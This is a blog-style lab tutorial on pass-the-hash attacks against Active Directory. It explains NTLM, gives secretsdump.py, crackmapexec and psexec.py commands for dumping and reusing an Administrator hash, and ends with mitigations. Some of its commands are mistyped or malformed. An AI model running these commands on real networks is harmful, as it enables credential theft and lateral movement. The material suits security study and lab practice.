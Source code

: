 ```yaml
---
title: "Pass the Hash "
layout: post
category: Active-Directory
tags: [AD, Windows-server]
excerpt: " "
---
```



# Pass the Hash Overview

This **attack only works with local SAM hashes(NTLM)** and **not Domain hashes(NTLM2)**. Since many administrators use the same passwords for both local and domain accounts it is possible to login to a domain controller and other high value systems using only local hashes.

Pass the hash is a technique used to steal credentials and enable lateral movement within a target network. In Windows networks, the challenge-response model used by NTLM security is abused to enable a malicious user to authenticate as a valid domain user without knowing their password. Even though Kerberos has replaced NTLM as the preferred authentication method for Windows domains, NTLM is still enabled in many Windows domains for compatibility reasons. And so, pass the hash attacks remain an effective tool in the hands of skilled attackers.

## How NTLM authentication works  
1. The user enter his username and password.  
2. The client software generates a hash of password (and discards the cleartext password).  
3. The username is sent to the target system requesting authentication.  
4. A security challenge is returned which the client encrypts using the password hash and then sends back.  
5. The target system passes the encrypted response to the Domain Controller who also encrypts the challenge with its copy of the user’s password hash – if it matches then the user is authenticated

# Pass the Hash Attack
## Get NTLM Hash

- Installing crackmapexec  

```bash
apt install crackmapexec
```


- Dumping Hashes with secretsdump.py 

```bash
#secretsdump.py DC/username:password@DCip

secretsdump.py homelab.local/superman:'Password123!'@192.1168.1.2

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823175602.png){: }

- admin NTLM hash
- syntax  **(uid:rid:lmhash:nthash)**

```
Dumping local SAM hashes **(uid:rid:lmhash:nthash)**

Administrator:500:aad3b435b51404eeaad3b435b51404ee:3b5edb4ae7153d3871522857b2bd1e60


Administrator -> 3b5edb4ae7153d3871522857b2bd1e60
 
```


## # Pass NTLM Hash
- After get hash when perform [smb relay attack](https://seczone1.github.io/Active_Directory/2022-07-14-SMB-Relay-Attack) 

- using  crakmapexec Tool 
```bash

crakmapexec DC-IP -u "username" -H ntlm  --local

crakmapexec 192.168.1.2 -u Administrator -H 3b5edb4ae7153d3871522857b2bd1e60 --local

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823181748.png){: }


- Using Psexec Tool 

```bash
psexec.py "Username"@DC-IP -hashes Lmhash:NThash

psexec.py Administrator@192.168.1.2 Lmhash:NThash aad3b435b51404eeaad3b435b51404ee:3b5edb4ae7153d3871522857b2bd1e60

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823182002.png){: }


# Pass Hash Attack Mitigations  

Hard to completely prevent, but we can make it more difficult on an attacker:  
- Limit account re-use:  
- Avoid re-using local admin password  
- Disable Guest and Administrator accounts  
- Limit who is a local administrator (least privilege)  
- Utilize strong passwords:  
- The longer the better (>14 characters)  
- Avoid using common words  
- I like long sentences  
- Privilege Access Management (PAM)  
- Check out/in sensitive accounts when needed  
- Automatically rotate passwords on check out and check in  


